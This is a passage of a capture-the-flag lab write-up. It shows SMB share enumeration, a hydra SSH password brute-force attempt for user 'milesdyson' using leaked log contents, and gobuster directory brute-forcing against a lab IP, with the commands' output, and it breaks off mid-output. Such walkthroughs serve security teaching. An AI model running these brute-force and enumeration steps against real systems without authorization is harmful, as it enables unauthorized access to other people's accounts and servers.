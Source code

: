 ```
```smbclient //10.10.32.220/anonymous```
This looks interesting:
```
smb: \> ls
  .                                   D        0  Thu Nov 26 11:04:00 2020
  ..                                  D        0  Tue Sep 17 03:20:17 2019
  attention.txt                       N      163  Tue Sep 17 23:04:59 2019
  logs                                D        0  Wed Sep 18 00:42:16 2019

                9204224 blocks of size 1024. 5831036 blocks available
```

Let's scavenge everything we can!
```
smb: \> get attention.txt logs
smb: \> cd logs
smb: \logs\> ls
  .                                   D        0  Wed Sep 18 00:42:16 2019
  ..                                  D        0  Thu Nov 26 11:04:00 2020
  log2.txt                            N        0  Wed Sep 18 00:42:13 2019
  log1.txt                            N      471  Wed Sep 18 00:41:59 2019
  log3.txt                            N        0  Wed Sep 18 00:42:16 2019

                9204224 blocks of size 1024. 5831036 blocks available
smb: \logs\> get log1.txt
smb: \logs\> get log2.txt
smb: \logs\> get log3.txt
```

Bingo! ```log1.txt``` seems to have some possible credentials. Let's try bruteforcing again:

```hydra -l milesdyson -P log1.txt 10.10.32.220 -t 16 ssh```

Still no success.

## Directory Bruteforcing ##

Since ```nmap``` told us there is a web server running on the machine, let's see what we can find on it:

```gobuster dir -u http://10.10.32.220 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -t 16```

```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.32.220
[+] Threads:        16
[+] Wordlist:       /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2021/01/20 16:01:02 Starting gobuster
===============================================================
/admin (Status: 301)
/css (Status: 301)
/js (Status: 301)
/config (Status: 301)
/ai (Status: 301)
/squirrelmail (Status: 301)
/server-status (Status: 403)
===============================================================
2021/01/20 16:17:42 Finished